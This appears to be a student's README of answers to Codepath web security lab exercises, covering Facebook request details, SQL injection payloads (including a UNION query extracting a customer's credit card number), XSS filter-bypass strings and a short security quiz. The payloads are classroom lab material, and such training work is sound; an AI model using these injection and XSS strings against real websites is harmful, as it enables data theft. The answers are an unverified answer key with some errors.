 # Web-Securities-Labs
Codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text ```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```

## Week 3
Cross Site Scripting One

1) Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONERROR="alert('XSS')"/>```

2)  Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONMESSAGE="alert('XSS')"/>```

3) In this one, the developer is completely removing the handler name. 
``` <SCRonmessageIPT>alert('XSS')</SCRonmessageIPT> ```

4) Demonstrate a XSS vulnerability in the following form by executing a JavaScript alert command. The developers had heard that escaping is a better way of fixing XSS issues but they were not totally clear on how to implement it.

Please enter the URL that you wish to post to your public profile;
``` http://www.google.com" oNmessage=alert()> ```

## Week 12

Question answers:

1. Name of a database of information-security vulnerabilities maintained with funding from the US government. Identifiers for this database are a popular way to reference vulnerabilities (1 word, acronym):
> CVE

2. What is the name of a large network of compromised machines?
> botnet

3. What is the name of the hacking technique often used to acquire sensitive information such as usernames, passwords, and credit card details (and sometimes, indirectly, money) by masquerading as a trustworthy entity in an electronic communication? 
> Phising

4. V arire zvff n orng
> rot13

5. What TCP port does the HTTP protocol commonly use?
> 80


6. What is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application? (three words)
> Command injection (not working right now)

7. What TCP port does HTTPS commonly use?
> 443
